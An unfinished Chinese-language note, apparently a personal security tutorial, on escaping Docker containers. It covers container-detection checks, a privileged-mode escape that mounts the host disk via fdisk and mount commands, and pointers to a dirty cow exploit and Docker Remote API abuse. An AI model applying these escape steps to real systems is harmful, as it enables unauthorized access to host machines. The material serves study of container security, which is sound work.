

# Docker逃逸（未完成）

> https://xz.aliyun.com/t/8558?time__1311=n4%2BxnD0DcDuD90WY4GNepDUh2oDOlD0onkqTD | https://blog.csdn.net/qq_41874930/article/details/109216506
> 
- Metasploit 中的 checkcontainer 模块、（判断是否为虚拟机，checkvm 模块）
    
    该模块其实进行了如下操作：
    
- 检查根目录下是否存在`.dockerenv`文件
- 检查 `/proc/1/cgroup` 是否存在含有docker字符串
- 检查是否存在container环境变量
    
    通过`env` \ `PATH` 来检查是否有docker相关的环境变量，来进一步判断。
    

## Docker逃逸方法

### 特权模式逃逸

> 当操作者执行`docker run --privileged`时，Docker将允许容器访问宿主机上的所有设备，同时修改AppArmor或SELinux的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限。
> 
1. 判断特权模式
    
    ```c
    cat /proc/self/status | grep CapEff
    ```
    
    特权模式启动的话，`CapEff`对应的掩码值应该为`0000003fffffffff`或者是 `0000001fffffffff`
    
    
    
2. 查看磁盘分区
    
    ```c
    fdisk -l
    Disk /dev/sda: 10 GiB, 10737418240 bytes, 20971520 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    Disklabel type: dos
    Disk identifier: 0x00063af9
    
    Device     Boot    Start      End  Sectors Size Id Type
    /dev/sda1  *        2048 16779263 16777216   8G 83 Linux
    /dev/sda2       16781310 20969471  4188162   2G  5 Extended
    /dev/sda5       16781312 20969471  4188160   2G 82 Linux swap / Solaris
    ```
    
3. 创建目录，并将分区挂载到目录中
    
    ```c
    mkdir /test && mount /dev/sda1 /test
    ```
    
4. 成功将宿主机内容挂载到test目录下

### dirty cow 逃逸

这种利用方法利用成功的前提是，宿主机的内核有`dirty cow`漏洞

> https://github.com/scumjr/dirtycow-vdso.git
> 

### **Docker Remote API 未授权访问**

Vulhub提供该漏洞复现环境（`Docker`配置有问题，导致复现不成功，累）